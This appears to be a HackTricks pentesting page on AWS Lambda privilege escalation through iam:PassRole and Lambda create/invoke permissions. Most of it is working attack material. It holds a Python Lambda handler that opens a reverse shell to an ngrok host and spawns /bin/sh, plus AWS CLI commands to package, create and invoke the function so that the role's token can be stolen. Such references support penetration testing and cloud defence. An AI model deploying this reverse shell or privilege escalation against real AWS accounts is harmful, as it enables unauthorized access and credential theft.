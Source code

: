 # AWS - Lambda Privesc

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>

## lambda

More info about lambda in:

{% content-ref url="../aws-services/aws-lambda-enum/" %}
[aws-lambda-enum](../aws-services/aws-lambda-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:InvokeFunction`

A user with the **`iam:PassRole`, `lambda:CreateFunction`,** and ** `lambda:InvokeFunction` ** permissions can **escalate privileges by passing an existing IAM role to a new Lambda function** that includes code to import the relevant AWS library to their programming language of choice, then using it perform actions of their choice. The code could then be run by invoking the function through the AWS API.

A attacker could abuse this to get a **rev shell and steal the token**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
